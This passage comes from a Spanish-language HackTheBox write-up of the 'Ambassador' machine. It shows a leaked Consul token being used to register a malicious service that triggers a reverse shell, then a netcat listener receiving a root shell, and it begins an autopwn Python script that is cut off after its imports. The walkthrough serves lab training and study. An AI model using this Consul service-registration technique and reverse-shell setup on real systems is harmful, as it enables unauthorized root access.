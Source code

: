 Ahora ejecutamos nuestro servicio, esperemos el **intervalo** establecido y se ejecutara nuestra **Shell inversa**:

```console
developer@ambassador:/tmp/.10.10.14.155$ curl -X PUT --data @payload.json \
  -H 'X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5' \
  http://localhost:8500/v1/agent/service/register?replace-existing-checks=true
developer@ambassador:/tmp/.10.10.14.155$ chmod +x reverse.sh 
developer@ambassador:/tmp/.10.10.14.155$ 

───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ nc -lvnp 1234
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.11.183.
Ncat: Connection from 10.10.11.183:35370.
bash: cannot set terminal process group (29649): Inappropriate ioctl for device
bash: no job control in this shell
root@ambassador:/# whoami
whoami
root
root@ambassador:/# find / -name root.txt -exec ls -l {} \;
find / -name root.txt -exec ls -l {} \;
-rw-r----- 1 root root 33 Nov 23 17:05 /root/root.txt
```

Luego de esto es importante **desactivar el servicio**, lo hacemos con el siguiente comando:

```console
developer@ambassador:/tmp/.10.10.14.155$ curl -X PUT -H 'X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5' \
  http://localhost:8500/v1/agent/service/deregister/marss_service
```

## Autopwn

* * *

Para seguir mejorando el scripting hice un autopwn en `python` para automatizar todo el proceso:

```python
#!/usr/bin/env python3

"""
Autopwn Assambador HTB
----------------------
Author: Marss
Date: 21 Nov, 2022
"""

import argparse
import sqlite3

from base64 import b64decode
from json import dumps
from mysql import connector
from paramiko import AutoAddPolicy, SSHClient
from pwn import *
from random import choice
from re import findall
from requests import Request, Session
from signal import signal, SIGINT
from sys import exit

## Ctrl + c
```